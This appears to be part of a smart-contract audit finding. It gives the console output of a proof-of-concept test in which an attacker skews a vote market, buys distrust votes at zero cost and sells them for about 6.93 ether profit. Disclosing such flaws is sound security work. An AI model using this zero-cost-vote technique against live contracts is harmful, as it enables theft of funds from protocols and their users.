 Output of the test:
```solidity
  === Setting up Test Environment ===
  Market created with:
  - Liquidity Parameter: 1000
  - Base Price: 10000000000000000
  - Initial Balance: 200000000000000000
  
=== Starting Exploit Test ===
  
Step 1: Creating vote imbalance
  Large vote purchase simulation:
  - Base Cost: 973068528194400546900
  - Protocol Fee: 0
  - Total Cost: 973068528194400546900
  - New Vote Price: 9999999999999999
  
Market state after large difference in votes:
  - Trust Votes: 98001
  - Distrust Votes: 1
  
Step 2: Exploiting zero-cost votes
  Exploit vote(Distrust) simulation:
  - Expected Cost: 0
  - Total Cost: 0
  
Exploit results:
  - attacker remaining balance: 100000000000000000
  - Final Trust Votes: 98001
  - Final Distrust Votes: 55001
  
Step 3: Demonstrating profit after untrust votes have been purchased
  After selling results:
  - Profit made: 6931471805599453090
  - Final untrustBuyingUser balance: 7031471805599453090
```
From this output, we can see that the attacker was able to exploit the zero-cost votes and make a profit of `6.93 ether` by selling the untrust votes afterwards which were purchased at zero cost.